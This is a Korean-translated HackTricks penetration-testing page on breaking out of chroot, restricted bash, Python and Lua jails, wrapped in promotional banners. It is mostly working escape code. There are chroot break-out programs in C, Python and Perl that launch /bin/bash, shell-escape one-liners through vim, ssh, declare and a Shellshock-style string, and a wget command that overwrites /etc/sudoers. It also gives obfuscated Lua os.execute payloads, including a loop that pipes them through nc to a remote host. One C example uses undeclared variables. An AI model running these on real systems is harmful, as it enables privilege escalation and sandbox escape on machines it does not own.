 # 감옥에서 탈출하기

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## **GTFOBins**

**"Shell" 속성이 있는 이진 파일을 실행할 수 있는지** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **에서 검색하세요.**

## Chroot 탈출

[wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations)에서: chroot 메커니즘은 **특권이 있는** (**root**) **사용자에 의한 의도적인 변조를 방어하기 위한 것이 아닙니다**. 대부분의 시스템에서 chroot 컨텍스트는 제대로 쌓이지 않으며, **충분한 권한을 가진 chrooted 프로그램은 탈출하기 위해 두 번째 chroot를 수행할 수 있습니다**.\
보통 이는 탈출하기 위해 chroot 내부에서 root가 되어야 함을 의미합니다.

{% hint style="success" %}
**도구** [**chw00t**](https://github.com/earthquake/chw00t)는 다음 시나리오를 악용하고 `chroot`에서 탈출하기 위해 만들어졌습니다.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
chroot 내부에서 **root**인 경우 **다른 chroot를 생성하여 탈출할 수 있습니다**. 이는 2개의 chroot가 (리눅스에서) 공존할 수 없기 때문에, 폴더를 생성한 후 **그 새로운 폴더에서 새로운 chroot를 생성하면** **당신이 그 외부에 있을 때**, 이제는 **새로운 chroot 외부에 있게 되어** FS에 있게 됩니다.

이는 보통 chroot가 작업 디렉토리를 지정된 위치로 이동하지 않기 때문에 발생하므로, chroot를 생성할 수 있지만 그 외부에 있을 수 있습니다.
{% endhint %}

보통 chroot 감옥 안에서는 `chroot` 이진 파일을 찾을 수 없지만, **이진 파일을 컴파일, 업로드 및 실행할 수 있습니다**:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>파이썬</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>  
펄
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
이것은 이전 사례와 유사하지만, 이 경우 **공격자가 현재 디렉토리에 대한 파일 설명자를 저장**하고 **새 폴더에 chroot를 생성**합니다. 마지막으로, 그는 chroot **외부**에서 그 **FD**에 **접근**할 수 있으므로 이를 접근하여 **탈출**합니다.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD는 Unix Domain Sockets를 통해 전달될 수 있으므로:

* 자식 프로세스 생성 (fork)
* 부모와 자식이 통신할 수 있도록 UDS 생성
* 자식 프로세스에서 다른 폴더에서 chroot 실행
* 부모 프로세스에서 새로운 자식 프로세스 chroot 외부의 폴더 FD 생성
* UDS를 사용하여 자식 프로세스에 그 FD 전달
* 자식 프로세스가 그 FD로 chdir하고, chroot 외부에 있기 때문에 감옥에서 탈출하게 됨
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* 루트 장치 (/)를 chroot 내부의 디렉토리에 마운트
* 그 디렉토리로 chroot

이것은 Linux에서 가능합니다
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* procfs를 chroot 내부의 디렉토리에 마운트 (아직 마운트되지 않았다면)
* 다른 root/cwd 항목이 있는 pid를 찾기, 예: /proc/1/root
* 그 항목으로 chroot
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Fork (자식 프로세스)를 생성하고 FS의 더 깊은 폴더로 chroot하고 그곳으로 CD
* 부모 프로세스에서 자식 프로세스가 있는 폴더를 자식의 chroot 이전 폴더로 이동
* 이 자식 프로세스는 chroot 외부에 있게 됨
{% endhint %}

### ptrace

{% hint style="warning" %}
* 예전에는 사용자가 자신의 프로세스에서 자신을 디버깅할 수 있었지만... 이제는 기본적으로 불가능
* 어쨌든 가능하다면, 프로세스에 ptrace를 사용하고 그 안에서 shellcode를 실행할 수 있음 ([이 예제 참조](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

감옥에 대한 정보 얻기:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### PATH 수정

PATH 환경 변수를 수정할 수 있는지 확인하십시오.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### vim 사용하기
```bash
:set shell=/bin/sh
:shell
```
### 스크립트 생성

_check if you can create an executable file with _/bin/bash_ as content_
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### SSH를 통한 bash 얻기

ssh를 통해 접근하는 경우, bash 셸을 실행하기 위해 이 트릭을 사용할 수 있습니다:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### 선언
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

예를 들어 sudoers 파일을 덮어쓸 수 있습니다.
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### 기타 트릭

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**다음 페이지도 흥미로울 수 있습니다:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python 감옥

다음 페이지에서 파이썬 감옥에서 탈출하는 트릭:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua 감옥

이 페이지에서는 lua 내부에서 접근할 수 있는 전역 함수를 찾을 수 있습니다: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**명령 실행과 함께 Eval:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
라이브러리의 **함수를 점 없이 호출하는 몇 가지 요령**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
라이브러리의 함수 나열:
```bash
for k,v in pairs(string) do print(k,v) end
```
다음의 한 줄 코드를 **다른 lua 환경에서 실행할 때마다 함수의 순서가 변경됩니다**. 따라서 특정 함수를 실행해야 하는 경우, 다양한 lua 환경을 로드하고 le 라이브러리의 첫 번째 함수를 호출하여 무차별 공격을 수행할 수 있습니다:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**인터랙티브 lua 셸 얻기**: 제한된 lua 셸 안에 있다면 다음을 호출하여 새로운 lua 셸(그리고 희망적으로 무제한)을 얻을 수 있습니다:
```bash
debug.debug()
```
## References

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (슬라이드: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
